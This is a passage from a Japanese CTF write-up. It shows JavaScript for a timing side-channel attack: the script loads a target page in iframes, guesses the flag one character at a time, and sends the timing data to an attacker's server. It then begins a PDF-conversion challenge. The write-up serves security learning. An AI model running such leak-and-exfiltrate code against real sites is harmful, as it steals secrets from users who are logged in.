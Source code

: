 ```javascript
window.addEventListener('load', () => {
    let result = [];
    let i = 0;

    const guess = (i) => {
        if (i === table.length) {
            const sorted = result.sort((x, y) => y[1] - x[1]);
            const found = sorted[0][0];
            console.log(found);
            (new Image).src = urlToReport + encodeURIComponent(JSON.stringify(sorted));
            return;
        }

        let start;
        let iframe = document.createElement('iframe');
        iframe.src = target + encodeURIComponent(known + table[i]);
        iframe.addEventListener('load', () => {
            document.body.removeChild(iframe);
            result.push([table[i], Date.now() - start]);
            setTimeout(() => {
                guess(i + 1);
            }, 100);
        }, false);

        start = Date.now();
        document.body.appendChild(iframe);
    };

    guess(0);
}, false);
```

`http://(攻撃者のサーバ)/?fb{cr055_s173_l34|` のような URL に管理者を訪問させると、`http://(攻撃者のサーバ)/log.php` に `[["<",256],[";",170],[".",131],["/",131],[":",131],[";",128]]` のような JSON が飛んできます。この場合は、最初のリクエストである `;` を除いてレスポンスが最も遅い `<` が正解と推測できます。

これをちまちま繰り返していくとフラグが得られました。

`fb{cr055_s173_l34|<5_4r4_c00ool!!}`

---

他の参加者が CSRF 等によって仕込んだと思われる偽フラグのせいで 1 ~ 2 時間を溶かしました。許しません。

### pdfme (655)
> We setup this PDF conversion service for public use, hopefully it's safe.
>  
> (URL)

与えられた URL にアクセスすると、以下のような説明と共にファイルのアップロードができるフォームが表示されました。

> Choose a file to upload (.fods, max 64kb, lowercase name)

`.fods` という拡張子のファイルをアップロードすると PDF に変換してくれるということでしょうか。`fods file` でググってみると、これは OpenDocument Spreadsheet 形式であることがわかりました。
